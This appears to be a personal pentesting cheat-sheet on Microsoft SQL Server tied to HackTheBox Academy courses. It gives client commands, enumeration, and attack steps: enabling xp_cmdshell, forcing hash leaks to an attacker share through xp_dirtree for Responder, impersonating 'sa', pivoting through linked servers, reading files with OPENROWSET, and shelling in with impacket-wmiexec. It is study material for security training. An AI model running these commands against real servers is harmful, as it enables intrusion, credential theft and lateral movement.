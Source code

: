 # MSSQL 🐭

[![footprinting](../../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)
[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

<div class="row row-cols-lg-2"><div>

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It's often used by developers when building .NET applications. 

SQL Server Management Studio (SSMS) is a graphical client that can be installed along MSSQL or separately. It allows database administrators, developers, and other users to perform various tasks related to SQL Server databases.

🐲 MSSQL default port is 1433 or 2433 <small>(TCP)</small> and 1434 <small>(UDP)</small>.
</div><div>

Common commands:

```sql!
select name from sys.databases    -- list databases
select name from sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');
use db_name;                      -- select a database
-- list the tables in the database
select table_name from information_schema.tables where table_type = 'base table';
-- list the columns of the table "table_name_here"
select column_name, data_type from information_schema.columns where table_name = 'table_name_here';
-- list users (1), and sysadmins (2)
SELECT name, password,sysadmin FROM syslogins
SELECT name FROM sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin', name) = 1;
```
</div></div>

<hr class="sep-both">

## MSSQL Clients

<div class="row row-cols-lg-2"><div>

#### Windows client — sqlcmd

On Windows, you can use the [sqlcmd](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver16&tabs=go%2Cwindows&pivots=cs1-bash) utility.

```ps
PS> # -E == Windows Auth | -Q == Query
PS> sqlcmd -E -Q "select name from sys.databases"
PS> sqlcmd -E -i query.sql
PS> sqlcmd -S server_name -U sa -P password [...]
```

If [WMI (DCOM)](/operating-systems/networking/protocols/dcom.md) is available, from a Linux host, you can access `sqlcmd` after popping a powershell:

```shell!
$ impacket-wmiexec username:password@IP -shell-type powershell
```

#### Windows client — PowerUpSQL

On Windows, you can use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) <small>(2.3k ⭐)</small>.

```ps
PS> Import-Module .\PowerUpSQL.ps1
PS> Get-SQLInstanceDomain
PS> Get-SQLQuery -Verbose -Instance "IP,1433" -username "example\username" -password "password" -query 'Select @@version'
```
</div><div>

#### Linux client — sqlsh

You can use [sqlsh](https://en.wikipedia.org/wiki/Sqsh) on Linux.

```shell!
$ sqsh -S IP -U 'username' -P 'password' -h
$ sqsh -S IP -U '.\\username' -P 'password' -h
1> some query
2> go
```

#### Linux client — impacket

You can alternatively use [mssqlclient](/operating-systems/networking/protocols/tools/impacket.md#mssqlclient).

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
```

The SQL Server might user Windows Authentication or Username/Password Authentication. Use or remove`-windows-auth` accordingly.
</div></div>


<hr class="sep-both">

## MSSQL Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

* We can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```shell!
$ nmap -sC -sV --script "*ms-sql*" -p 1433 IP
```

* Look for interesting [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) modules.

```shell!
mfs6> search mssql/
```

#### FootHold

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* You can use [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to XXX.

```shell!
mfs6> use mssql_enum_sql_logins
mfs6> set RHOSTS IP
mfs6> set USERNAME username
mfs6> set PASSWORD password
mfs6> set USE_WINDOWS_AUTHENT true
mfs6> run
```

#### Exploitation - Part I

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![active_directory_enumeration_attacks](../../../../cybersecurity/_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

* [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) can be used to run commands. It's disabled by default. The command is runs with the same permissions as the server.

```sql!
-- [EXECUTE] sp_configure 'show advanced options', 1
-- RECONFIGURE
-- [EXECUTE] sp_configure 'xp_cmdshell', 1
-- RECONFIGURE
xp_cmdshell 'whoami'
```

Note that you can use `enable_xp_cmdshell` in `impacket-mssqlclient`.

* We can steal hashes by setting up a [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md)

```sql!
EXEC master..xp_dirtree '\\IP\share\'
EXEC master..xp_subdirs '\\IP\share\'
```

* We may be able to impersonate users:

```sql!
-- list users we can impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
-- impersonate user 'sa'
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sysadmin')
REVERT # cancel impersonation
```
</div><div>

#### Exploitation - Part II

* Extended Store Procedures
* CLR Assemblies
* SQL Server Agent Jobs
* External Scripts
* `xp_regwrite` can be used to create registry entries
* User Defined Functions in C/C++ ([ex](https://github.com/mysqludf/lib_mysqludf_sys))

#### Lateral Movement

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

The current server may be linked to other servers. If we compromise it, we may be able to run SQL queries on linked servers.

* List Linked Servers

```sql!
SELECT srvname, isremote FROM sysservers
```

* Execute a SQL Query on a Linked Server

```sql!
EXEC('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
```

#### Additional Notes

* If installed, look for saved credentials in SSMS

* The services often runs as `NT SERVICE\MSSQLSERVER`

* By default, encryption is not enforced when attempting to connect.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Try running the tool as administrator
* HeidiSQL, SQLPro, mssql-cli
* [System Databases](https://learn.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sql-server-ver15)

```sql!
SELECT name FROM master.dbo.sysdatabases
SELECT table_name FROM xxx.INFORMATION_SCHEMA.TABLES
```
</div><div>

Write files

```sql!
-- enable to write
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
-- use it...
-- can read any file
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

SSMS

* File > New > Query with current connection
* Press execute to run the file
* Need to add `GO`?
</div></div>